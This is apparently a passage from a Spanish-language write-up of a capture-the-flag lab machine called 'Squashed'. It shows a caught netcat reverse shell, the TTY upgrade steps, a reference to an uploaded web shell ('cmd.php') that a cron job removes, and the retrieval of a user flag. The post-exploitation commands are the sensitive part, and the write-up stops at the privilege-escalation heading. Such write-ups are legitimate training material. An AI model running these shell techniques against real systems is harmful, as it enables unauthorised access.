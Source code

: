 Ahora vamos a hacer un tratamiento de la `tty` para poder hacer `ctrl+c` y no perdamos la `shell`

```bash
alex@squashed:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
alex@squashed:/var/www/html$ 
alex@squashed:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
```

Despues de `reset xterm` le das al `ENTER`

```bash
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```

## Shell como alex

Nos borro el `cmd.php` asi que hay alguna tarea `cron` que se encarga de eliminarlo asi que mejor sean rapidos o vuelvan a crearlo en caso de que cuando lo pongan en la web les de un `404`

```bash
alex@squashed:/var/www/html$ ls -l
total 44
drwxr-xr-x 2 alex www-data  4096 Apr 17 01:05 css
drwxr-xr-x 2 alex www-data  4096 Apr 17 01:05 images
-rw-r----- 1 alex www-data 32532 Apr 17 01:05 index.html
drwxr-xr-x 2 alex www-data  4096 Apr 17 01:05 js
alex@squashed:/var/www/html$ 

```

Vamos a decirle nuestro directorio

```bash
alex@squashed:/var/www/html$ cd
bash: cd: HOME not set
alex@squashed:/var/www/html$ export HOME=/home/alex
alex@squashed:/var/www/html$ cd
alex@squashed:~$ 
```

## User.txt

```bash
alex@squashed:~$ ls
Desktop  Documents  Downloads  Music  Pictures	Public	Templates  Videos  snap  user.txt
alex@squashed:~$ cat user.txt 
2411b3f425b652998e5bb0f6990d0059
alex@squashed:~$ 
```

## Escalada de privilegios
